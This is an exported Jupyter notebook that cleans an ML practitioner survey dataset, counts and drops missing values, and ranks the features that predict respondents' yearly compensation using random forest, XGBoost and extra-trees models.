run a machine learning service that operationally improves my product or workflows,Q9_Part_5_Experimentation and iteration to improve existing ML models,Q9_Part_6_Do research that advances the state of the art of machine learning,Q9_Part_7_None of these activities are an important part of my role at work,Q9_Part_8_Other,Q12_Part_1_Twitter (data science influencers),Q12_Part_2_Hacker News (https://news.ycombinator.com/),"Q12_Part_3_Reddit (r/machinelearning, r/datascience, etc)","Q12_Part_4_Kaggle (forums, blog, social media, etc)","Q12_Part_5_Course Forums (forums.fast.ai, etc)","Q12_Part_6_YouTube (Cloud AI Adventures, Siraj Raval, etc)","Q12_Part_7_Podcasts (Chai Time Data Science, Linear Digressions, etc)","Q12_Part_8_Blogs (Towards Data Science, Medium, Analytics Vidhya, KDnuggets etc)","Q12_Part_9_Journal Publications (traditional publications, preprint journals, etc)","Q12_Part_10_Slack Communities (ods.ai, kagglenoobs, etc)",Q12_Part_11_None,Q12_Part_12_Other,Q13_Part_1_Udacity,Q13_Part_2_Coursera,Q13_Part_3_edX,Q13_Part_4_DataCamp,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,510,1,1,15,3.0,9.0,1.0,0.0,0.0,13.0,0.0,1.0,0.0,8.0,3.0,0.0,0,0,0,0,0,0,0,0,1,0,0,1,0,0,0,1,1,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
1,423,5,1,20,5.0,9.0,4.0,4.0,3.0,17.0,5.0,3.0,6.0,NaN,NaN,NaN,1,1,1,1,0,0,0,0,0,0,0,1,0,1,1,1,0,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
2,83,8,0,16,5.0,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
3,391,5,1,2,3.0,6.0,4.0,4.0,0.0,11.0,2.0,4.0,0.0,8.0,4.0,2.0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,1,1,1,0,0,0,1,1,1,...,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0
4,392,1,1,20,0.0,6.0,0.0,0.0,1.0,15.0,0.0,4.0,5.0,8.0,3.0,7.0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,1,0,0,0,1,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0


In [0]:
data.shape

(19717, 218)

In [0]:
data['Time duration'] = data['Time duration'].apply(pd.to_numeric)
#data['Time duration'] = data['Time duration'].astype('int')

 # Checking missing values
 In this section, we deal with the data cleaning and check out some missing data or imbalance data.

In [0]:
data.isnull() # Checking missing values

,Time duration,Age,Gender,Country,Education level,Job title,Company size,The number of data scientist in company,ML implementaion in company,Yearly compensation,Investment on ML,Primary tool used for ML,Coding experience,Programming language to learn first,Experience in TPU,Years in using machine learning methods,Q9_Part_1_Analyze and understand data to influence product or business decisions,"Q9_Part_2_Build and/or run the data infrastructure that my business uses for storing, analyzing, and operationalizing data",Q9_Part_3_Build prototypes to explore applying machine learning to new areas,Q9_Part_4_Build and/or run a machine learning service that operationally improves my product or workflows,Q9_Part_5_Experimentation and iteration to improve existing ML models,Q9_Part_6_Do research that advances the state of the art of machine learning,Q9_Part_7_None of these activities are an important part of my role at work,Q9_Part_8_Other,Q12_Part_1_Twitter (data science influencers),Q12_Part_2_Hacker News (https://news.ycombinator.com/),"Q12_Part_3_Reddit (r/machinelearning, r/datascience, etc)","Q12_Part_4_Kaggle (forums, blog, social media, etc)","Q12_Part_5_Course Forums (forums.fast.ai, etc)","Q12_Part_6_YouTube (Cloud AI Adventures, Siraj Raval, etc)","Q12_Part_7_Podcasts (Chai Time Data Science, Linear Digressions, etc)","Q12_Part_8_Blogs (Towards Data Science, Medium, Analytics Vidhya, KDnuggets etc)","Q12_Part_9_Journal Publications (traditional publications, preprint journals, etc)","Q12_Part_10_Slack Communities (ods.ai, kagglenoobs, etc)",Q12_Part_11_None,Q12_Part_12_Other,Q13_Part_1_Udacity,Q13_Part_2_Coursera,Q13_Part_3_edX,Q13_Part_4_DataCamp,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,...,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False
1,False,False,False,False,False,False,False,False,False,False,False,False,False,True,True,True,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,...,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False
2,False,False,False,False,False,True,True,True,True,True,True,True,True,True,True,True,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,...,False,False,False,False,False,False,False,False,False,False,False,False,False,False,Fals



In [0]:
# There are too many variables so heatmap is not useful
sb.heatmap(data.isnull(),yticklabels=False,cbar=False,cmap='viridis')

# Handling the missing data
<h4>Evaluating for Missing Data</h4> The missing values are converted to Python's default. We use Python's built-in functions to identify these missing values. There are two methods to detect missing data:<ol>    <li><b>.isnull()</b></li>    <li><b>.notnull()</b></li></ol>The output is a boolean value indicating whether the value that is passed into the argument is in fact missing data.

Evaluating for Missing Data

The missing values are converted to Python's default. We use Python's built-in functions to identify these missing values. There are two methods to detect missing data:
.isnull()
.notnull()
The output is a boolean value indicating whether the value that is passed into the argument is in fact missing data.

In [0]:
missing_data = data.isnull()
missing_data.head(5)

,Time duration,Age,Gender,Country,Education level,Job title,Company size,The number of data scientist in company,ML implementaion in company,Yearly compensation,Investment on ML,Primary tool used for ML,Coding experience,Programming language to learn first,Experience in TPU,Years in using machine learning methods,Q9_Part_1_Analyze and understand data to influence product or business decisions,"Q9_Part_2_Build and/or run the data infrastructure that my business uses for storing, analyzing, and operationalizing data",Q9_Part_3_Build prototypes to explore applying machine learning to new areas,Q9_Part_4_Build and/or run a machine learning service that operationally improves my product or workflows,Q9_Part_5_Experimentation and iteration to improve existing ML models,Q9_Part_6_Do research that advances the state of the art of machine learning,Q9_Part_7_None of these activities are an important part of my role at work,Q9_Part_8_Other,Q12_Part_1_Twitter (data science influencers),Q12_Part_2_Hacker News (https://news.ycombinator.com/),"Q12_Part_3_Reddit (r/machinelearning, r/datascience, etc)","Q12_Part_4_Kaggle (forums, blog, social media, etc)","Q12_Part_5_Course Forums (forums.fast.ai, etc)","Q12_Part_6_YouTube (Cloud AI Adventures, Siraj Raval, etc)","Q12_Part_7_Podcasts (Chai Time Data Science, Linear Digressions, etc)","Q12_Part_8_Blogs (Towards Data Science, Medium, Analytics Vidhya, KDnuggets etc)","Q12_Part_9_Journal Publications (traditional publications, preprint journals, etc)","Q12_Part_10_Slack Communities (ods.ai, kagglenoobs, etc)",Q12_Part_11_None,Q12_Part_12_Other,Q13_Part_1_Udacity,Q13_Part_2_Coursera,Q13_Part_3_edX,Q13_Part_4_DataCamp,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,...,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False
1,False,False,False,False,False,False,False,False,False,False,False,False,False,True,True,True,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,...,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False
2,False,False,False,False,False,True,True,True,True,True,True,True,True,True,True,True,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,False,...,False,False,False,False,False,False,False,False,False,False,False,False,False,False,Fals

"True" stands for missing value, while "False" stands for not missing value.

<h4>Count missing values in each column</h4>
<p>
Using a for loop in Python, we can quickly figure out the number of missing values in each column. As mentioned above, "True" represents a missing value, "False"  means the value is present in the dataset.  In the body of the for loop the method  ".value_counts()"  counts the number of "True" values. 
</p>

In [0]:
for column in missing_data.columns.values.tolist():
    print(column)
    print (missing_data[column].value_counts())
    print("")

Time duration
False    19717
Name: Time duration, dtype: int64

Age
False    19717
Name: Age, dtype: int64

Gender
False    19717
Name: Gender, dtype: int64

Country
False    19717
Name: Country, dtype: int64

Education level
False    19323
True       394
Name: Education level, dtype: int64

Job title
False    19107
True       610
Name: Job title, dtype: int64

Company size
False    14002
True      5715
Name: Company size, dtype: int64

The number of data scientist in company
False    13623
True      6094
Name: The number of data scientist in company, dtype: int64

ML implementaion in company
False    13227
True      6490
Name: ML implementaion in company, dtype: int64

Yearly compensation
False    12497
True      7220
Name: Yearly compensation, dtype: int64

Investment on ML
False    12250
True      7467
Name: Investment on ML, dtype: int64

Primary tool used for ML
False    15690
True      4027
Name: Primary tool used for ML, dtype: int64

Coding experience
False    15627
True      4

<h3 id="deal_missing_values">Deal with missing data</h3>
<b>How to deal with missing data?</b>

<ol>
    <li>drop data<br>
        a. drop the whole row<br>
        b. drop the whole column
    </li>
    <li>replace data<br>
        a. replace it by mean<br>
        b. replace it by frequency<br>
        c. replace it based on other functions
    </li>
</ol>

In [0]:
data.shape

(19717, 218)

In [0]:
final_data = data.dropna()

In [0]:
final_data.shape

(10541, 218)

In [0]:
final_data.head()

,Time duration,Age,Gender,Country,Education level,Job title,Company size,The number of data scientist in company,ML implementaion in company,Yearly compensation,Investment on ML,Primary tool used for ML,Coding experience,Programming language to learn first,Experience in TPU,Years in using machine learning methods,Q9_Part_1_Analyze and understand data to influence product or business decisions,"Q9_Part_2_Build and/or run the data infrastructure that my business uses for storing, analyzing, and operationalizing data",Q9_Part_3_Build prototypes to explore applying machine learning to new areas,Q9_Part_4_Build and/or run a machine learning service that operationally improves my product or workflows,Q9_Part_5_Experimentation and iteration to improve existing ML models,Q9_Part_6_Do research that advances the state of the art of machine learning,Q9_Part_7_None of these activities are an important part of my role at work,Q9_Part_8_Other,Q12_Part_1_Twitter (data science influencers),Q12_Part_2_Hacker News (https://news.ycombinator.com/),"Q12_Part_3_Reddit (r/machinelearning, r/datascience, etc)","Q12_Part_4_Kaggle (forums, blog, social media, etc)","Q12_Part_5_Course Forums (forums.fast.ai, etc)","Q12_Part_6_YouTube (Cloud AI Adventures, Siraj Raval, etc)","Q12_Part_7_Podcasts (Chai Time Data Science, Linear Digressions, etc)","Q12_Part_8_Blogs (Towards Data Science, Medium, Analytics Vidhya, KDnuggets etc)","Q12_Part_9_Journal Publications (traditional publications, preprint journals, etc)","Q12_Part_10_Slack Communities (ods.ai, kagglenoobs, etc)",Q12_Part_11_None,Q12_Part_12_Other,Q13_Part_1_Udacity,Q13_Part_2_Coursera,Q13_Part_3_edX,Q13_Part_4_DataCamp,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,510,1,1,15,3.0,9.0,1.0,0.0,0.0,13.0,0.0,1.0,0.0,8.0,3.0,0.0,0,0,0,0,0,0,0,0,1,0,0,1,0,0,0,1,1,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
3,391,5,1,2,3.0,6.0,4.0,4.0,0.0,11.0,2.0,4.0,0.0,8.0,4.0,2.0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,1,1,1,0,0,0,1,1,1,...,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0
4,392,1,1,20,0.0,6.0,0.0,0.0,1.0,15.0,0.0,4.0,5.0,8.0,3.0,7.0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,1,0,0,0,1,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
5,470,7,1,15,3.0,4.0,0.0,5.0,3.0,19.0,2.0,0.0,2.0,3.0,3.0,1.0,0,0,1,0,0,1,0,0,0,0,0,0,0,1,0,1,1,0,0,0,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,1,0,0,0,0,1,0,0,0,0,0
6,529,1,1,20,3.0,4.0,3.0,4.0,2.0,2.0,3.0,4.0,3.0,8.0,1.0,2.0,1,0,0,0,1,1,0,0,0,0,0,1,1,1,1,0,1,0,0,0,1,1,1,0,...,0,0,0,0,1,0,1,1,0,0,0,0,0,0,0,0,1,0,0,0,1,1,1,1,0,0,0,0,1,1,0,0,0,0,0,0,0,0,0,0


# Feature Importance
We can get the feature importance of each feature of our dataset by using the feature importance property of the model.
Feature importance gives you a score for each feature of our data, the higher the score more important or relevant is the feature towards our output variable.
Feature importance is an inbuilt class that comes with Tree Based Classifiers, we will be using Extra Tree Classifier for extracting the top 10 features for the dataset.

The target is the salaries of respondent and this feature importance is to check which factors contribute to the higher salaries.

In [0]:
# Import the random forest model.
from sklearn.ensemble import RandomForestClassifier

X = final_data.iloc[:, np.r_[:,0:9,10:218]]  #independent columns
y = final_data.iloc[:, np.r_[:,9]]   #target column: salary

# This line instantiates the model. 
model3 = RandomForestClassifier() 
# Fit the model on your training data.
model3.fit(X, y)
feature_importances = pd.DataFrame(model3.feature_importances_,
                                   index = X.columns,
                                    columns=['importance']).sort_values('importance',ascending=False)
feature_importances

,importance
Country,0.038304
Time duration,0.031721
Age,0.026045
Job title,0.020119
Company size,0.019733
...,...
Q26_Part_7_Other,0.000353
Q29_Part_10_ Red Hat Cloud,0.000328
Q27_Part_6_Other,0.000312
Q17_Part_9_Code Ocean,0.000271




In [0]:
(pd.Series(model3.feature_importances_, index=X.columns).nlargest(20).plot(kind='barh'))

[0.00442738 0.01077303 0.00476496 0.01487033 0.00452192 0.005144
 0.01363281 0.00524953 0.00754569 0.00902213 0.00407355 0.00952701
 0.00317914 0.00377564 0.00622765 0.00516186 0.00413447 0.00950187
 0.00634567 0.00766164 0.00401865 0.00380258 0.00372628 0.00459797
 0.00433901 0.00434785 0.00482383 0.00407054 0.00519296 0.00455774
 0.00710868 0.00294014 0.00397361 0.00428905 0.00357361 0.00472309
 0.00577375 0.00461312 0.00313125 0.00357533 0.00415659 0.0046103
 0.00492028 0.00508485 0.00565048 0.00412817 0.00506442 0.00406015
 0.00479813 0.00363436 0.00502653 0.00545307 0.00465254 0.00399557
 0.0053388  0.00580897 0.00367616 0.00326793 0.00319026 0.00522436
 0.00443236 0.00341565 0.0038731  0.00326333 0.00281328 0.00313024
 0.00528082 0.00305256 0.0051652  0.00552246 0.00266612 0.00326113
 0.00482533 0.00611174 0.00791865 0.00432095 0.00518795 0.00537828
 0.00413375 0.00607672 0.00441384 0.00296204 0.00368316 0.00444201
 0.00461367 0.00330137 0.00288161 0.00499801 0.00527351 0.0044109

<Figure size 216x432 with 0 Axes>



In [0]:
from xgboost import XGBClassifier
from xgboost import plot_importance

X = final_data.iloc[:, np.r_[:,0:9,10:218]]  #independent columns
y = final_data.iloc[:, np.r_[:,9]]   #target column: salary
# fit model no training data
model2 = XGBClassifier()
model2.fit(X,y)
# feature importance
print(model2.feature_importances_)
# plot feature importance

plt.figure(figsize=(3,6))
plot_importance(model2,max_num_features=20)
plt.show()

[1.35210820e-02 1.69239103e-02 6.87898258e-03 2.07667628e-02
 1.21649157e-02 1.31195686e-02 1.58172698e-02 1.38087136e-02
 1.33770125e-02 1.23726602e-02 1.10767857e-02 1.42187926e-02
 7.62428659e-03 6.02360522e-03 1.40693910e-02 7.39037695e-03
 7.46825777e-03 7.06707550e-03 6.66444597e-03 6.47271631e-03
 5.64353675e-03 2.23641157e-03 8.90917373e-04 7.89430254e-03
 4.42564697e-03 7.87587565e-03 9.45917704e-03 7.57206292e-03
 1.02233291e-02 5.56033420e-03 8.87659598e-03 8.92481432e-03
 6.22073664e-03 1.67063900e-03 3.52485649e-03 7.02215897e-03
 9.25068756e-03 6.85950809e-03 8.09344335e-03 2.54121327e-03
 9.29077078e-03 4.15811037e-03 8.59581668e-03 3.65882867e-03
 8.22494574e-03 3.40574158e-03 4.94539418e-03 7.43558986e-03
 7.67718243e-03 8.38281419e-03 4.32221932e-03 4.30417888e-03
 9.17187405e-03 7.09835005e-03 4.96175162e-03 8.16462572e-03
 6.25832592e-03 1.10242904e-03 3.10161527e-03 7.04981490e-03
 6.61124354e-03 2.50867583e-03 2.86389325e-03 3.94436618e-04
 3.11329756e-04 4.412108



In [0]:
X = final_data.iloc[:, np.r_[:,0:9,10:218]]  #independent columns
y = final_data.iloc[:, np.r_[:,9]]   #target column: salary
from sklearn.ensemble import ExtraTreesClassifier
import matplotlib.pyplot as plt
model1 = ExtraTreesClassifier()
model1.fit(X,y)
print(model1.feature_importances_) #use inbuilt class feature_importances of tree based classifiers
#plot graph of feature importances for better visualization
feat_importances = pd.Series(model1.feature_importances_, index=X.columns)
feat_importances.nlargest(20).plot(kind='barh')
plt.show()

After feature importance, it can concluded that country, age, job title, coding experience contribute the salaries a lot. And, we can find out that the higher salary, the longer time duration. This is a very interesting point. In this project, I didn't try to build a classification model but the classification models such as Logistic regression, decision tree (Random forest), SVM, etc can be built to predict the target such as salaries.

# Correlation Matrix with Heatmap

Correlation states how the features are related to each other or the target variable. Correlation can be positive (increase in one value of feature increases the value of the target variable) or negative (increase in one value of feature decreases the value of the target variable) Heatmap makes it easy to identify which features are most related to the target variable, we will plot heatmap of correlated features using the seaborn library.

